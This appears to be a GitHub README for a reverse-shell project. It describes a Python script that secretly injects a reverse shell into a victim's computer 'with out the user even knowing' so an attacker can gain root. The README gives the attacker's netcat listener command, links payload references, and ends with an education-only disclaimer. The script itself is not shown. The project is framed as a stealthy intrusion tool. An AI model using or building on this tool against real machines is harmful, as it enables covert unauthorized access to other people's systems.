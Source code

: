 # 🖥🔄🖥                                      _____  _            _  _                _                            _    _               
                                    / ____|| |          | || |              | |                          | |  (_)              
  _ __  ___ __   __ ___  _ __  ___ | (___  | |__    ___ | || |  __ _  _   _ | |_  ___   _ __ ___    __ _ | |_  _   ___   _ __  
 | '__|/ _ \\ \ / // _ \| '__|/ __| \___ \ | '_ \  / _ \| || | / _` || | | || __|/ _ \ | '_ ` _ \  / _` || __|| | / _ \ | '_ \ 
 | |  |  __/ \ V /|  __/| |   \__ \ ____) || | | ||  __/| || || (_| || |_| || |_| (_) || | | | | || (_| || |_ | || (_) || | | |
 |_|   \___|  \_/  \___||_|   |___/|_____/ |_| |_| \___||_||_| \__,_| \__,_| \__|\___/ |_| |_| |_| \__,_| \__||_| \___/ |_| |_|
                                                           ______                                                              
                                                          |______|                                                             

# main description

This project is a quick script that opens a ssh server on a computer.
This script injects a revershell command with out the user even knowing this can also be used to make
a hole for a attacker to get in to. 

# not so long description 
This project contains a python file that starts a revers shell attack wich can be used as a
exploit to gain root 🌳.

# How to start the attack
start by listening on the attackers side 
command : ssty raw -echo; (stty size; cat) | nc -lvnp port -s IPaddr

# 📎 Refernces used in this project 
--https://www.youtube.com/watch?v=bXCeFPNWjsM
--https://github.com/swisskyrepo/PayloadsAllTheThings

# 👀📍 disclamer
please don't spread this as malware or use on othere's with out concent,
this script was made for the pure pupose of education and cyber sucrity in mind.

--thank you
